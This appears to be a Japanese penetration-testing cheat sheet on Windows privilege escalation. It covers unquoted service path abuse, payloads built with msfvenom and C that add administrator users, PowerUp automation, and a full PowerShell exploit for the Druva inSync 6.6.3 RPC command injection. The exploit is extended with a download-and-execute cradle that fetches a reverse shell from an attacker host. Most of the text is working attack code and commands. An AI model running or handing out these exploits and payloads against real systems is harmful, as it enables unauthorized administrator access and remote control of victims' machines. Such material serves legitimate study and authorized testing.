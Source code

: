 # 脆弱なサービスを悪用したPrivilege Escalation

# 引用符で囲まれていないサービスの列挙

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\\Windows\\" | findstr /i /v """                                "
```

## ペイロードの作成

### msfvenom

```
msfvenom -p windows/exec CMD='net localgroup Administrators victim-user /add' -f exe-service -o Devservice.exe
```

### C++でペイロードを作成

```c++
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

コンパイル

```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

### ペイロードのターゲットパスに配置

```
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```

```
mv .\Devservice.exe '\Program Files\Development Files\'
```

### ペイロードの権限を変更

```
icacls 'C:\Program Files\Development Files\Devservice.exe' /grant Everyone:F
```

### サービスの停止と起動

```
Start-Service <サービス名>
Stop-Service <サービス名>
```

## PowerUp.ps1で自動列挙

```
powershell -ep bypass
. .\PowerUp.ps1
```

### 引用符で囲まれていないパスを列挙

```
Get-UnquotedService
```

### ペイロードの書き換え

```
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

### サービスの再起動

```
Restart-Service GammaService
```

# インストールされているプログラムの列挙

```
wmic product get name
```

# スケジュールされたタスク

## タスクの列挙

```
schtasks /query /fo LIST /v
```

# Druva inSync Windows クライアントのローカル権限昇格

## 概要

`Druva inSync 6.6.3` は、公開された RPC サービスを介したコマンド インジェクション攻撃に対して脆弱である。このエクスプロイト [PoC](https://www.exploit-db.com/exploits/49211) を使用して権限を昇格できる可能性がある。`Druva inSync` は「統合されたバックアップ、電子情報開示、およびコンプライアンス監視」に使用されるアプリケーションであり、クライアント アプリケーションは強力な NT AUTHORITY のコンテキストでサービスを実行していることがわかります。 SYSTEMアカウント。エスカレーションは、ポート `6064` でローカルに実行されているサービスと対話することで可能になる。

## ローカルポートの列挙

```
netstat -ano | findstr 6064
```

## Druva inSync PowerShell 実証実験

### Exploit PoC

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

### PowerShell PoCの変更

`$cmd` 変数を目的のコマンドに変更する。ここでは、ローカル管理者ユーザーを追加したり、自分自身にリバース シェルを送信したりするなど、さまざまな操作を行うことができる。 [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) で試す。スクリプトを攻撃マシンにダウンロードし、`shell.ps1` に変更して以下の文を追加する。

```
Invoke-PowerShellTcp -Reverse -IPAddress <attack-ip> -Port 9001
```

Druva inSync Exploit PoC の `$cmd` 変数を変更して、PowerShell リバース シェルをメモリにダウンロードする

```
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://<attack-ip>:8000/sell.ps1')"
```

攻撃マシンでhttpサーバーとNetcatリスナーを起動し、ターゲットホストでPoCを実行することでリバースシェルを取得できる





